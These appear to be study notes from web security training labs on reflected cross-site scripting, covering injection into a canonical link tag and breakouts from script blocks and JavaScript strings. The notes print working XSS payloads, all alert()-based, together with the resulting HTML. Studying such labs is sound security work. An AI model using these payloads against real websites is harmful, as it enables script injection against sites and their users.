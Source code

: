 ### Lab: Reflected XSS in canonical link tag


This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

    ALT+SHIFT+X
    CTRL+ALT+X
    Alt+X

The payload is: `https://baseURL/?'accesskey='x'onclick='alert(1)`

## XSS into JavaScript

**Terminating the existing script**

In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
then you can use the following payload to break out of the existing JavaScript and execute your own:
`</script><img src=1 onerror=alert(document.domain)>`
### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function. 

```html
<script>
    var searchTerms = 'test123';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Payload: `</script><script>alert(1)</script><script> var searchTerms = \'`
```html
<script> var searchTerms = '</script>
<script>alert(1)</script>
<script> var searchTerms = \\\'';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
**Breaking out of a JavaScript string**
